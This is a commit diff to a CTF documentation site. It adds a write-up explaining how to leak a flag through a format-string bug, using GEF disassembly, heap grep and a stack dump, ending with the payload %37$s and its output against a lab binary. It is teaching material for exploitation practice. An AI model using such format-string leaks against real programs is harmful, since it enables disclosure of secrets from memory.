

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pwn/format-string/01-leak-all-the-stack.md, in a window 1280 px wide and 1400 px high, scrolled down 1432 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 2403 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add docs to the format string

````diff
--- a/docs/pwn/format-string/01-leak-all-the-stack.md
+++ b/docs/pwn/format-string/01-leak-all-the-stack.md
@@ -64,6 +64,89 @@ int main (int argc, char **argv)
 
 ## Answer
 
+The content of the file is located inside the heap, but there is a pointer to the content of the `flag.txt` file inside the stack. So by using `%s`, the format string will display the string pointed by this address.
+
+(For testing purposes, I created the `flag.txt` file with the content `FLAG{gg}`.)
+
+We can find this address in the stack by setting a breakpoint on the call of the vulnerable `printf` function.
+
+```asm
+gef➤  disass printMessage3
+Dump of assembler code for function printMessage3:
+   0x000006ed <+0>:     push   ebp
+   0x000006ee <+1>:     mov    ebp,esp
+   0x000006f0 <+3>:     push   ebx
+   0x000006f1 <+4>:     sub    esp,0x4
+   0x000006f4 <+7>:     call   0x5f0 <__x86.get_pc_thunk.bx>
+   0x000006f9 <+12>:    add    ebx,0x18bb
+   0x000006ff <+18>:    sub    esp,0xc
+   0x00000702 <+21>:    lea    eax,[ebx-0x1684]
+   0x00000708 <+27>:    push   eax
+   0x00000709 <+28>:    call   0x570 <puts@plt>
+   0x0000070e <+33>:    add    esp,0x10
+   0x00000711 <+36>:    sub    esp,0xc
+   0x00000714 <+39>:    push   DWORD PTR [ebp+0x8]
+   0x00000717 <+42>:    call   0x520 <printf@plt>
+   0x0000071c <+47>:    add    esp,0x10
+   0x0000071f <+50>:    nop
+   0x00000720 <+51>:    mov    ebx,DWORD PTR [ebp-0x4]
+   0x00000723 <+54>:    leave
+   0x00000724 <+55>:    ret
+End of assembler dump.
+gef➤  b *(printMessage3+42)
+- Breakpoint 1 at 0x717
+```
+
+Let's run the program and find where the flag is located using the command `grep`.
+
+```asm
+gef➤  grep "FLAG{gg}"
+[+] Searching 'FLAG{gg}' in memory
+[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
+  0x56558a40 - 0x56558a4a  →   "FLAG{gg}\n"
+  0x56558c10 - 0x56558c1a  →   "FLAG{gg}\n"
+```
+
+As you can see, the content of `flag.txt` is stored on the heap, but lets try to find `0x56558a40` or `0x56558c10` in the stack.
+
+```asm
+gef➤  x/50xw $sp
+0xffffd1c0:     0x565585b0      0x0000000a      0x00000004      0x565556f9
+0xffffd1d0:     0x00000001      0x56556fb4      0xffffd1f8      0x56555755
+0xffffd1e0:     0x565585b0      0x56555995      0x56555993      0x56555731
+0xffffd1f0:     0x00000001      0x56556fb4      0xffffd218      0x5655578e
+0xffffd200:     0x565585b0      0x56555993      0x00000001      0x5655576a
+0xffffd210:     0x00000001      0x56556fb4      0xffffd268      0x5655584d
+0xffffd220:     0x565585b0      0x00000080      0x56558ad0      0x565557ae
+0xffffd230:     0x00000001      0xf7fddab0      0x00000000      0xffffd324
+0xffffd240:     0xf7f993bc      0x56556fb4      0xffffd32c      0x00000078
+0xffffd250:     0x565585b0    > 0x56558a40 <    0x56558ad0      0x0b337100
+0xffffd260:     0xffffd280      0x00000000      0x00000000      0xf7dc7a0d
+0xffffd270:     0x00000001      0x565555b0      0x00000000      0xf7dc7a0d
+0xffffd280:     0x00000001      0xffffd324
+gef➤  x/s 0x56558a40
+0x56558a40:     "FLAG{gg}\n"
+```
+
+As you can see, there is our address inside `> <`.
+`0x56558a40` is a the 37th place in the stack, so we can retrieve it using `%37$s`.
+
+```bash
+$ ./vuln
+input whatever string you want; then it will be printed back:
+
+%37$s
+Now
+your input
+will be printed:
+
+FLAG{gg}
+```
+
+---
+
+The other way to solve this challenge is using bruteforce :
+
 Source code (solve.py) :
 
 ```python
````
